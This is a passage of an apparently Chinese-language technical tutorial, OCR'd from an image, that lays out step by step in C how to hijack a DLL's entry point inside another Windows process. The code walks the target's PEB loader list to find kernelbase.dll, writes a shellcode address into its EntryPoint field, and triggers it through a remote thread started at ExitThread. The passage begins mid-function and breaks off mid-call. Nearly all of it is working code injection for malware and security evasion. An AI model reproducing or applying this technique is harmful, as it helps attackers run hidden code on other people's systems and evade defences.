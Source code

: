 ```c
    );

    return (status == 0) ? pbi.PebBaseAddress : NULL;
}
```

#### 2. 遍历模块链表

```c
PEB_LDR_DATA_EXT ldrData;
ReadProcessMemory(hProcess, remotePeb.Ldr, &ldrData, sizeof(ldrData), &bytesRead);

PLIST_ENTRY currentEntry = ldrData.InLoadOrderModuleList.Flink;
PLIST_ENTRY firstEntry = currentEntry;

do {
    LDR_DATA_TABLE_ENTRY_EXT entry;
    PLDR_DATA_TABLE_ENTRY_EXT remoteEntryAddr = CONTAINING_RECORD(
        currentEntry,
        LDR_DATA_TABLE_ENTRY_EXT,
        InLoadOrderLinks
    );

    ReadProcessMemory(hProcess, remoteEntryAddr, &entry, sizeof(entry), &bytesRead);

    // 读取 DLL 名称
    wchar_t dllName[256] = {0};
    ReadProcessMemory(hProcess, entry.BaseDllName.Buffer, dllName,
                    entry.BaseDllName.Length, &bytesRead);

    // 检查是否是目标 DLL
    if (_wcsicmp(dllName, L"kernelbase.dll") == 0) {
        // 找到目标！
    }

    currentEntry = entry.InLoadOrderLinks.Flink;
} while (currentEntry != firstEntry);
```

#### 3. 劫持入口点

```c
PVOID newEntryPoint = shellcodeAddr;
PVOID entryPointFieldAddr = (PVOID)((ULONG_PTR)remoteEntryAddr +
                                    FIELD_OFFSET(LDR_DATA_TABLE_ENTRY_EXT, EntryPoint));

WriteProcessMemory(hProcess, entryPointFieldAddr, &newEntryPoint,
                  sizeof(PVOID), &bytesWritten);
```

#### 4. 强制触发

```c
// 创建一个调用 ExitThread 的线程
// 该线程退出前会调用所有 DLL 的 DLL_THREAD_DETACH
LPTHREAD_START_ROUTINE pExitThread =
    (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "ExitThread");

HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    pExitThread,  // 线程入口点为 ExitThread
    NULL,
    0,
```
